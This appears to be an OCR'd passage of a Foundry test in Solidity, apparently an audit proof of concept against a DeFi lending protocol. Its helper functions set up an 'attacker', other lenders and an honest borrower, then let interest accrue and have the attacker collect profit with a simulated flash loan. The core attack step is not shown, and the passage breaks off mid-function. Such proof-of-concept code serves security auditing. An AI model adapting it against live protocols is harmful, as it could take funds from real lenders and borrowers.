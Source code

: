 ``` ((m.totalCash + m.totalBorrow) * 1e18) / totalSupplyPlusReserves;```

    function _setUpInitialSupplyAndBorrow() internal {
        // other lenders supply otherLendersSupplyAmount to the market
        vm.startPrank(admin);
        market1.approve(address(ib), otherLendersSupplyAmount);
        ib.supply(admin, admin, address(market1), otherLendersSupplyAmount);
        vm.stopPrank();

        // attacker supplies attackerInitialSupplyAmount to the market
        // this is the money they will get more yield from thanks to the attack
        vm.startPrank(attacker);
        market1.approve(address(ib), type(uint256).max);
        ib.supply(
            attacker,
            attacker,
            address(market1),
            attackerInitialSupplyAmount
        );
        vm.stopPrank();

        // honest borrower supplies collateral to some other market
        // and then borrows honestBorrowAmount from the attacked market
        vm.startPrank(honestBorrower);
        market2.approve(address(ib), honestBorrowerSupplyAmount);
        ib.supply(
            honestBorrower,
            honestBorrower,
            address(market2),
            honestBorrowerSupplyAmount
        );
        ib.borrow(
            honestBorrower,
            honestBorrower,
            address(market1),
            honestBorrowAmount
        );
        vm.stopPrank();
    }

    function _redeemAndRepayAferTheAttack() internal {
        // wait for the interest to accure
        for (uint i; i < numDays; i++) {
            fastForwardTime(86400);
            ib.accrueInterest(address(market1));
        }
        assertEq(ib.isUserLiquidatable(attacker), false);

        // honest borrower repays their debt (or gets liquidated)
        vm.startPrank(honestBorrower);
        market1.approve(address(ib), type(uint256).max);
        ib.repay(
            honestBorrower,
            honestBorrower,
            address(market1),
            type(uint256).max
        );
        vm.stopPrank();

        // attacker claims their profit from the attack (or just normal yield)
        // flash loan not really needed in the normal scenario here
        vm.startPrank(attacker);
        // take the flash loan
        deal(address(market1), attacker, attackerFlashLoanAmount2);
```